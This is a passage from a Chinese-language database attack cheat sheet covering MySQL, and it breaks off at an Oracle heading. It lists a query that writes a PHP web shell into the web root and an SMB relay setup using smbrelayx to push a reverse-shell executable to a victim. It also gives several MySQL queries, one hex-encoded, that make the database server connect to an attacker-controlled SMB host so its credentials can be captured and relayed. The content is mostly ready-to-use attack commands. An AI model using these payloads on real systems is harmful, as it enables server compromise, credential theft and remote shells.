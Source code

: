 #### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>命令执行（PHP）</td><td align="center">SELECT ""INTO OUTFILE'/var/www/shell.php'</td></tr><tr><td>使用 MySQL CLI Access 执行命令</td><td align="center">https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/</td></tr></tbody></table>

SMB 中继外壳

Requires

*   Metasploit（https://www.metasploit.com/）
    
*   smbrelayx（https://github.com/CoreSecurity/impacket）
    

##### 生成反向 shell 有效负载

```
生成一个侦听器来传递反向shell
```

```
smbrelayx.py -h VICTIM.IP.GOES.HERE -e ./reverse\_shell.exe
```

##### 执行下面的任何一个 MySQL 查询来调用监听器

```
select load\_file('\\\\\\\\YOUR.IP.GOES.HERE\\\\aa');
select load\_file(0x5c5c5c5c3139322e3136382e302e3130315c5c6161);
select 'netspi' into dumpfile '\\\\\\\\YOUR.IP.GOES.HERE\\\\aa';
select 'netspi' into outfile '\\\\\\\\YOUR.IP.GOES.HERE\\\\aa';
load data infile '\\\\\\\\YOUR.IP.GOES.HERE\\\\aa' into table database.table\_name;
```

有关更多信息，请参见此处（https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/）

#### **Oracle**

如果安装了 Java，可用于执行命令
